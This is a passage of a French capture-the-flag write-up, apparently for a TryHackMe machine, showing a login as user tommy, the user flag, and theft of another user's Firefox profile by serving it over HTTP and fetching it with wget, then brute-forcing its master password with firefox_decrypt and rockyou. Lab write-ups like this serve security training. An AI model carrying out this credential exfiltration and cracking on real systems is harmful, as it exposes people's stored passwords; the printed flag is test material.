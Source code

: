 ```bash
*** System restart required ***
Last login: Fri Apr 16 14:05:02 2021 from 192.168.29.217
tommy@incognito:~$ id
uid=1001(tommy) gid=1001(tommyV) groups=1001(tommyV)
tommy@incognito:~$ ls
user.txt  web
tommy@incognito:~$ cat user.txt 
7ba840222ecbdb57af4d24eb222808ad
tommy@incognito:~$ 
```

On se connecte avec les identifiants et obtient un shell avec les droits de tommy.  
Dans le répertoire tommyV on lit le fichier user.txt et on a le flag.   
Le flag est : 7ba840222ecbdb57af4d24eb222808ad  

**root.txt**   

```bash
tommy@incognito:/home$ ls
carlJ  tommyV
tommy@incognito:/home$ cd carlJ/
tommy@incognito:/home/carlJ$ ls -al
total 44
drwxr-xr-x 8 carlJ carlJ 4096 Jun 11 06:22 .
drwxr-xr-x 4 root  root  4096 Apr  3  2021 ..
lrwxrwxrwx 1 root  root     9 Apr  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 carlJ carlJ  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 carlJ carlJ 3772 Mar 26  2021 .bashrc
drwx------ 4 carlJ carlJ 4096 Apr  3  2021 .cache
drwxr-x--- 3 carlJ carlJ 4096 Apr  3  2021 .config
drwx------ 3 carlJ carlJ 4096 Apr  3  2021 .gnupg
drwxrwxr-x 3 carlJ carlJ 4096 Apr 16  2021 .local
drwx------ 2 carlJ carlJ 4096 Apr 16  2021 mailing
drwxr-xr-x 5 carlJ carlJ 4096 Mar 28  2021 .mozilla
-rw-r--r-- 1 carlJ carlJ  808 Mar 26  2021 .profile
```

On trouve un répertoire .mozilla.  

```bash
tommy@incognito:/home/carlJ$ cd .mozilla/firefox/
tommy@incognito:/home/carlJ/.mozilla/firefox$ ls 
 0ryxwn4c.default-release   45ir4czt.default  'Crash Reports'   installs.ini  'Pending Pings'   profiles.ini
tommy@incognito:/home/carlJ/.mozilla/firefox$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

---

tim@kali:~/Bureau/tryhackme/write-up$ wget -r http://chronicle.thm:8000/0ryxwn4c.default-release -q

tim@kali:~/Bureau/tryhackme/write-up$ cd chronicle.thm\:8000/
tim@kali:~/Bureau/tryhackme/write-up/chronicle.thm:8000$ 

tim@kali:~/Bureau/tryhackme/write-up/chronicle.thm:8000$ wget https://raw.githubusercontent.com/unode/firefox_decrypt/master/firefox_decrypt.py -nv
2021-11-01 11:49:07 URL:https://raw.githubusercontent.com/unode/firefox_decrypt/master/firefox_decrypt.py [37599/37599] -> "firefox_decrypt.py" [1]

tim@kali:~/Bureau/tryhackme/write-up/chronicle.thm:8000$ for word in $(</usr/share/wordlists/rockyou.txt);do echo $word | python firefox_decrypt.py ./0ryxwn4c.default-release/ ;done > resultat.txt 2>/dev/null 

tim@kali:~/Bureau/tryhackme/write-up/chronicle.thm:8000$ cat resultat.txt 

Website:   https://incognito.com
```